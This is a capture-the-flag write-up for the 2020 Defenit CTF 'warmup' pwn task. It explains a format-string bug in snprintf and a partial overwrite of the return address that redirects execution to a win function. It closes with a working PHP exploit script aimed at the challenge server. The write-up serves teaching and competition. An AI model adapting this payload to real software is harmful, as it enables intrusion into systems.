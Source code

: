# warmup - 2020 Defenit CTF (pwn, 316p, 32 solved)
## Introduction

warmup is a pwn task.

A binary, and a libc are provided.

The libc provided is `Ubuntu GLIBC 2.23-0ubuntu11`.

## Reverse engineering

The binary is quite small and has symbols.

It opens `flag.txt`. It then reads `0x100` bytes in a buffer from the standard
input, and calls `snprintf` on it, resulting in a format string vulnerability.
It calls `exit` right after. It does not display anything, which makes it
impossible to leak memory.

There is a `win` function that displays the flag. It is located right after the
vulnerable function.


## Exploitation

The author of this challenge expects players to redirect the flow of execution
to the `win` function.

The format string vulnerability allows an attacker to overwrite arbitrary
memory. ASLR + PIE means that the attacker is restricted to addresses that are
left on the stack. PIE also means that the overwritten pointer has to be already
pointing to the main binary's mapping.

The binary is `relro`. Overwriting the `.got.plt` is not an option.

The vulnerable function never returns. It calls `exit` that calls a few hooks
(TLS destructors, `atexit` functions, etc.). Tracing the execution shows no
hooks that can be overwritten and whose function is located in the main binary's
mappings.

`snprintf` uses a return address. It is possible to overwrite it during its
call, which will make it return to a different address.

`snprintf` originally returns to `$base + 00000a0a`, which is conveniently very
close to the `win` function, located in `$base + 00000a14`. Partially
overwriting the last byte of the return address to `0x14` will thus make the
call to `snprintf` return to the `win` function.

There are no pointers to `snprintf`'s return address on the stack. However,
there is a pointer to a stack address that contains an other stack address.

```
0x7fffffffda20:	0x00007fffffffda30	0x473734f9ce51ca00
0x7fffffffda30:	0x00007fffffffda40	0x0000000100000a89
```

It is possible to overwrite the second pointer (`0x7fffffffda30`) to make it
point what would be the return address of `snprintf`.

With ASLR, this has a reasonable chance of success. It is possible to run a
script multiple time in parallel to get the flag faster.


**Flag**: `Defenit{printf_r3t_0v3rwrit3}`

## Appendices

### pwn.php

```php
#!/usr/bin/php
<?php
const HOST = "warmup.ctf.defenit.kr";
const PORT = 3333;

$payload  = str_repeat("%c", 66);
$payload .= "%" . (0xD2F8 - 66) . "c";
$payload .= "%hn";

$payload .= "%" . (0xFF & (0x14 - 0xF8)) . "c"; // skip canary + adjust
$payload .= "%hhn";
$payload .= "\x00";

$host = gethostbyname(HOST);
$port = PORT;
$exit = false;

while(!$exit) {
	$socket = socket_create(2, 1, 0);
	if(false === $socket)
		exit(1);

	if(!socket_connect($socket, $host, $port))
		exit(2);

	socket_write($socket, $payload);
	while("" !== ($packet = socket_read($socket, 4096))) {
		echo $packet;
		$exit = true;
	}
}
```
